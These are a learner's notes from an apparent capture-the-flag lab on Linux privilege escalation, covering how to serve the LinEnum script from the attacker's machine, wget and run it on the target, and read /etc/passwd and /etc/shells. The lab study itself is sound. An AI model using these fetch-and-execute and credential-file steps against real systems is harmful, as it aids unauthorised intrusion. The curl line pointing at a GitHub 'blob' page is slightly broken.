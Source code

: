 Common Linux Privesc
####################
:Author: David Boyd
:Date: 2020-06-02
:SSH Login: user3, password

[Task 4] Enumeration
====================

LinEnum
	a bash script that perfoms common commands related to privilege escalation.

	Saves time (allowing more effort to be put toward getting root).

Get LinEnum
-----------

curl -O https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

	- -O, --remote-name

		-O'riginal'-rem'O'te-name.  Writes output to a local file with the same
		name as the original remote name.

Push LinEnum on TM (Target Machine)
-----------------------------------

Steps
~~~~~

1.	Setup Python server on your machine
2.	from TM (target machine), wget your.Machine.IP.addr:port/file.sh
3.	from TM, chmod +x file.sh && run file.sh

Python3
~~~~~~~

http.server    (import http.server)
	this module defines classes for implementing HTTP servers (Web servers).

	-m

Issues
~~~~~~
:Issue: Python2 code is deprecated.
:Tricks: Use the **2to3** utility to convert Python2 prgms to Python3.
:Solution: The *SimpleHTTPServer* module has been merged into the
           *http.server* in Python 3.0

.. code-block :: Python

	python3 -m http.server 8000

	python -m SimpleHTTPServer 8000

The http.server is invoked directly using the *-m* switch of the interpreter
with a port number argument.  **This serves files relative to the currect
directory.**  // Think: -m = "main directory"

Sandbox
~~~~~~~

.. code-block :: Python

	# My machine
	python3 -m http.server 8000

	# TM
	wget my.ip.add.ress:8000/LinEnum.sh
	chmod +x LinEnum.sh
	./LinEnum.sh


Questions
---------

.. code-block :: Bash

	# What is the target's hostname?
	hostname

	# Look at the output of /etc/passwd,
	# how many "user[x]" are there on the system?
	cat /etc/passwd | grep user[0-9]

	# How many available shells are there on the system?
	cat /etc/shells

